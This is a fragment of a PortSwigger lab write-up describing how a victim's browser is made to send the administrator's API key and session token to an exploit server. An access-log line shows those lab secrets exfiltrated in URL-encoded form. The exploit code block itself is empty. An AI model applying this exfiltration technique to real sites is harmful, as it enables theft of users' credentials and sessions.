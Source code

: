 ```html
```

Store this code to the exploit server of portswigger

When click on deliver to victim and see the access log, you will see that the request have received to our server

<p align="center" width="100%">
  <img src="image3.png" width="800" hight="500"/>
</p>

> `/log?key{%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22RhXsRiHSkQ148gTLld1vBaSgvcwZgqYZ%22,%20%20%22sessions%22:%20[%20%20%20%20%22nmYjzWwENbSVJa0xLBg2M8iYQKOuFRMm%22%20%20]}`
> 

if we decode it using URL

<p align="center" width="100%">
  <img src="image4.png" width="800" hight="500"/>
</p>
